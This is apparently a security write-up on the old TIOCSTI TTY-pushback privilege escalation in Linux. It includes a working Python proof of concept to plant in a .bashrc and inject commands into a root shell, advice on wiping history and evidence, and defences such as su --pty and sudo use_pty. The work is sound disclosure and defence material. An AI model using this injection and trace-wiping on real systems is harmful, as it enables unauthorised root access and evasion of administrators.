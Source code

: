 ```yaml
---
title: The oldest privesc: injecting careless administrators\' terminals using TTY pushback
---
```


This trick is possibly the oldest security bug that still exists today, it's been traced [as far back as 1985](https://web.archive.org/web/20031005121525/https://securitydigest.org/unix/archive/015).

It's been [discovered](https://www.openwall.com/lists/oss-security/2011/12/20/2) and [rediscovered](https://www.openwall.com/lists/oss-security/2012/11/05/8) and [re-rediscovered](https://seclists.org/oss-sec/2021/q4/43) by sysadmins, developpers and pentesters every few years for close to 4 decades now. It's been subject to [multiple](https://lore.kernel.org/kernel-hardening/1494450134.28559.2.camel@gmail.com/t/) [developper](https://lore.kernel.org/all/Y0m9l52AKmw6Yxi1@hostpad/) [battles](https://kernsec.org/pipermail/linux-security-module-archive/2017-May/001473.html), [countless](https://www.halfdog.net/Security/2012/TtyPushbackPrivilegeEscalation/) [posts](https://security.stackexchange.com/questions/136748/tty-push-back-priv-escalation), but still remains largely forgotten.

This is just another attempt at shedding light on it, for both attackers and defenders.


Why it works
============
The TIOCSTI ioctl can insert bytes in the tty's input queue. It is used to simulate terminal input.

When running ```su lowpriv_user```, by default no new pty is allocated:
![PTY stays the same](./TTYPushBack/pty_unchanged.PNG)

Therefore since we're still in the same pty, input can be sent directly *to the parent shell* to execute commands in its context.


Make it work
============
Consider this python sample and assume it's automatically being run at logon from the .bashrc of a technical account, such as postgres, to which the root user changes by typing ```su - postgres```:
```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

We're sending SIGSTOP to the lowpriv shell to get the focus back to its parent, the root shell.
Then sending the characters one by one using the TIOCSTI ioctl injects them into the root shell as if they were input manually, until '\n' is sent which executes the command.

![get root or go home](./TTYPushBack/root.PNG)

And that's it, you're now root. Devilishly simple.


Always sneaking stabbing
------------------------
Running the following command will attempt to wipe most of your traces and get back to the lowpriv shell:
```cmd = ' set +o history\n' + sys.argv[1] + '\nfg\nreset\n'```

You should also wipe your payload from the .bashrc file.

Hopefully this doesn't alert the sysadmin.


Protecting against it
=====================
From su's manpage:
```
   -P, --pty
   Create a pseudo-terminal for the session. The independent terminal provides better security as the user does not share a terminal with the original session. This can be used to avoid TIOCSTI ioctl
   terminal injection and other security attacks against terminal file descriptors. The entire session can also be moved to the background (e.g., su --pty - username -c application &). If the
   pseudo-terminal is enabled, then su works as a proxy between the sessions (sync stdin and stdout).

   This feature is mostly designed for interactive sessions. If the standard input is not a terminal, but for example a pipe (e.g., echo "date" | su --pty), then the ECHO flag for the pseudo-terminal
   is disabled to avoid messy output.
```

Here's the protection in action (```fg``` has been manually inputed to return to lowpriv's shell, notice how the command was "buffered" until we came back to it):
![PTY has changed](./TTYPushBack/pty_changed.PNG)

Note that RHEL7 does not have the option, whereas RHEL8 does.

Note that the ```su``` command is not the only one affected by the bug, it's a broader problem due to the ioctl itself. From the sudoers(3) manpage:
```
    use_pty
    If set, and sudo is running in a terminal, the command will be run in a pseudo-terminal (even if no I/O logging is being done).  If the sudo process is not attached to a terminal,
    use_pty has no effect.

    A malicious program run under sudo may be capable of injecting commands into the user's terminal or running a background process that retains access to the user's terminal device even
    after the main program has finished executing.  By running the command in a separate pseudo-terminal, this attack is no longer possible.  This flag is off by default.
```

The ioctl also has been restricted for a number of years in grsecurity, under the name GRKERNSEC_HARDEN_TTY (2016?).

The Linux kernel 6.2 also has introduced an [optional mechanism](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=83efeeeb3d04) to protect against it.

Things are moving, albeit slowly, and are not defaults yet. This privesc will still be valid for the foreseeable future, don't forget it this time!
